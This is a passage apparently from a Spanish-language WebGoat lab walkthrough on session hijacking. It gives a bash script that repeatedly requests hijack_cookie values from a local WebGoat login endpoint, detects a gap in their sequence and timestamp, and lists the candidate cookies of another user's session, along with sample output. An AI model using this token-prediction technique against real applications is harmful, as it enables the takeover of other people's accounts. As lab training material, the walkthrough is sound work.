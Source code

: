 Pues bueno podemos simplemente hacer un sencillo `for`

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))		

	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	diferencia2_tmp=$diferencia2

	parte1_tmp=$parte1
	parte2_tmp=$parte2	
	
	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
		echo "hijack_cookie=$parte1($diferencia1)-$parte2_tmp($diferencia2)! ¡Alguien estuvo antes!"
		parte1_aumt=$((parte1-1))
		hijack_cookie_temp="hijack_cookie=$parte1_aumt-?"
		echo "¿hijack_cookie=$parte1_aumt-?"
		for i in $(seq 1 $((diferencia2_tmp)))
		do
			marca_temporal=$((parte2_tmp-i))
			hijack_cookie_temp="hijack_cookie=$parte1_aumt-$marca_temporal"
			echo "$hijack_cookie_temp"
		done		
	  	break
	else
	  echo "hijack_cookie=$parte1_tmp($diferencia1)-$parte2_tmp($diferencia2)"
	fi	
	diferencia2_tmp=$diferencia2
	sleep $3
done
```

```bash
$ ./script.sh $JSESSIONID 100 0 1
hijack_cookie=4745395612611424148(4745395612611424148)-1686454368028(1686454368028)
hijack_cookie=4745395612611424150(2)-1686454368048(20)! ¡Alguien estuvo antes!
¿hijack_cookie=4745395612611424149-?
hijack_cookie=4745395612611424149-1686454368047
hijack_cookie=4745395612611424149-1686454368046
hijack_cookie=4745395612611424149-1686454368045
hijack_cookie=4745395612611424149-1686454368044
hijack_cookie=4745395612611424149-1686454368043
hijack_cookie=4745395612611424149-1686454368042
hijack_cookie=4745395612611424149-1686454368041
hijack_cookie=4745395612611424149-1686454368040
hijack_cookie=4745395612611424149-1686454368039
hijack_cookie=4745395612611424149-1686454368038
hijack_cookie=4745395612611424149-1686454368037
hijack_cookie=4745395612611424149-1686454368036
```